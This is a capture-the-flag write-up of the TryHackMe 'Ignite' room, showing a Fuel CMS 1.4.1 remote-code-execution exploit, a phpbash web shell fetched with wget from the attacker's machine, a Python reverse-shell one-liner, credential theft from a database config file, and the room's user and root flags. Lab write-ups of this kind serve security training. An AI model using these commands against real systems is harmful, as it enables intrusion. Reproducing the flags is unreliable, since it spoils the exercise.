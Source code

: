 ## Ignite - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/ignite)

**Root it!**

<i>Root the box! Designed and created by DarkStar7471, built by Paradox.</i>

<i>Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.</i>

**IP: 10.10.30.6**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Feroxbuster

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Firstly, I do Nmap and Feroxbuster for enumeration.
  ```
  nmap -A -p- 10.10.30.6 -> only 80 open, Apache httpd 2.4.18 ((Ubuntu))
  ```

  ```
  feroxbuster -u http://10.10.30.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ->

  [#>------------------] - 13m    67755/964214  3h      found:33      errors:57845  
  [#>------------------] - 13m     7697/87650   10/s    http://10.10.30.6/ 
  [#>------------------] - 13m     8094/87650   11/s    http://10.10.30.6/fuel/ 
  [#>------------------] - 13m     6802/87650   9/s     http://10.10.30.6/fuel/modules/ 
  [#>------------------] - 13m     6985/87650   9/s     http://10.10.30.6/assets/ 
  [#>------------------] - 13m     5474/87650   7/s     http://10.10.30.6/assets/images/ 
  [#>------------------] - 13m     5464/87650   7/s     http://10.10.30.6/assets/docs/ 
  [#>------------------] - 13m     5354/87650   7/s     http://10.10.30.6/assets/pdf/ 
  [#>------------------] - 13m     5831/87650   8/s     http://10.10.30.6/assets/css/ 
  [#>------------------] - 12m     5304/87650   7/s     http://10.10.30.6/assets/js/ 
  [#>------------------] - 12m     5273/87650   7/s     http://10.10.30.6/fuel/licenses/ 
  [#>------------------] - 12m     5339/87650   7/s     http://10.10.30.6/assets/cache/ 
  ```
  
- I also ran `nikto` but it only found `robots.txt` so yeah...

---

## ⚙️ Shell Access

- So I searched `fuel cms exploit` and found it immediately for version 1.4.1. Download the exploit and comment `proxy`, also delete `proxies=proxy` since you don't need proxy at all.<br>
[fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47138)

- To gain shell, simply use the exploit with python2. I saved mine exploit as `fuel_cms_exploit.py`, when you download it from `Exploits-DB` it will be saved as `47138.py`
  
  ```python2 fuel_cms_exploit.py```
  
- Perfect! I have shell but it's printing whole response after each command, so I started looking for a resolution to remove those responses.

- I found that `phpbash.php` will do exactly what I need, here's the link, download `.php` file to your Kali machine and then transfer it to the target machine.<br>
  [phpbash](https://github.com/Arrexel/phpbash/blob/master/phpbash.php)
  
  ```
  python3 -m http.server 80 -> my machine
  wget http://[YOUR-THM-IP]:80/phpbash.php -> target machine
  ```

- When it's done, go to: http://10.10.30.6/phpbash.php and you will have interactive shell! Pretty cool right? Now let's find some flags shall we!

---

## 🧍 User Privilege Escalation

- OK, getting user flag is always easy, just go through target system and you will find it. It's in the `/home/www-data/` directory.
  ```
  cat /home/www-data/flag.txt
  6470e394cbf6dab6a91682cc8585059b
  ```
  
- First one done, moving to escalation to get root flag.

---

## 👑 Root Privilege Escalation

- This one wasn't that hard to find. First thing what I did was to get shell on my actual terminal since it is easier for me to work there. Start a `netcat` listener and connect it with target machine.
  ```
  my machine -> nc -lvnp 7777
  target machine -> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR-THM-IP]",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  
- Ok, awesome, I have shell in my terminal, let's change it to `putty`
  ```
  python -c 'import pty; pty.spawn("/bin/bash")'
  ctrl+Z -> backgrounds shell
  stty raw -echo;fg
  ```
  
- Now let's get root, when I did `sudo -l` it asked me for password and I also enumerated all writable files on machine
  ```
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

  144391 388 -rwsr-xr-- 1 root dip 394984 Jun 12 2018 /usr/sbin/pppd
  265987 20 -rwsr-xr-x 1 root root 18664 Mar 17 2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
  139989 16 -rwsr-xr-x 1 root root 14864 Jan 15 2019 /usr/lib/policykit-1/polkit-agent-helper-1
  142068 100 -rwsr-sr-x 1 root root 98440 Jan 29 2019 /usr/lib/snapd/snap-confine
  134963 44 -rwsr-xr-- 1 root messagebus 42992 Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  144205 12 -rwsr-sr-x 1 root root 10584 Oct 25 2018 /usr/lib/xorg/Xorg.wrap
  139780 420 -rwsr-xr-x 1 root root 428240 Jan 31 2019 /usr/lib/openssh/ssh-keysign
  135261 12 -rwsr-xr-x 1 root root 10232 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
  130720 40 -rwsr-xr-x 1 root root 40432 May 16 2017 /usr/bin/chsh
  131038 76 -rwsr-xr-x 1 root root 75304 May 16 2017 /usr/bin/gpasswd
  131440 40 -rwsr-xr-x 1 root root 39904 May 16 2017 /usr/bin/newgrp
  131613 24 -rwsr-xr-x 1 root root 23376 Jan 15 2019 /usr/bin/pkexec
  139620 12 -rwsr-xr-x 1 root root 10624 May 8 2018 /usr/bin/vmware-user-suid-wrapper
  131991 136 -rwsr-xr-x 1 root root 136808 Jul 4 2017 /usr/bin/sudo
  130718 52 -rwsr-xr-x 1 root root 49584 May 16 2017 /usr/bin/chfn
  131503 56 -rwsr-xr-x 1 root root 54256 May 16 2017 /usr/bin/passwd
  783517 40 -rwsr-xr-x 1 root root 40128 May 16 2017 /bin/su
  783491 44 -rwsr-xr-x 1 root root 44680 May 7 2014 /bin/ping6
  783465 140 -rwsr-xr-x 1 root root 142032 Jan 28 2017 /bin/ntfs-3g
  783490 44 -rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
  783453 40 -rwsr-xr-x 1 root root 40152 May 16 2018 /bin/mount
  783537 28 -rwsr-xr-x 1 root root 27608 May 16 2018 /bin/umount
  783416 32 -rwsr-xr-x 1 root root 30800 Jul 12 2016 /bin/fusermount
  ```

- So, I did more enumeration in order to get root's password but couldn't do it, then I remembered that I saw database configuration somewhere on targets web page. When I visited database page I found the location of database!
  ```
  cat fuel/application/config/database.php  
  db['default'] = array(
          'dsn'   => '',
          'hostname' => 'localhost',
          'username' => 'root',
          'password' => 'mememe',
          'database' => 'fuel_schema',
          'dbdriver' => 'mysqli',
          'dbprefix' => '',
          'pconnect' => FALSE,
          'db_debug' => (ENVIRONMENT !== 'production'),
          'cache_on' => FALSE,
          'cachedir' => '',
          'char_set' => 'utf8',
          'dbcollat' => 'utf8_general_ci',
          'swap_pre' => '',
          'encrypt' => FALSE,
          'compress' => FALSE,
          'stricton' => FALSE,
          'failover' => array(),
          'save_queries' => TRUE
  );
  ```

- Perfect! That's it! Now I have root's password which is `mememe`, just need to get the flag now.
  ```
  su root
  mememe
  
  cat /root/root.txt
  b9bbcb33e11b80be759c4e844862482d 
  ```

---

## 🏁 Flags

- **User Flag**: `6470e394cbf6dab6a91682cc8585059b`
- **Root Flag**: `b9bbcb33e11b80be759c4e844862482d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding root's password since I knew that I saw database configuration somewhere but couldn't remember where...`

- What did I learn?
  `Nothing new besides using phpbash.php which was cool tho.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
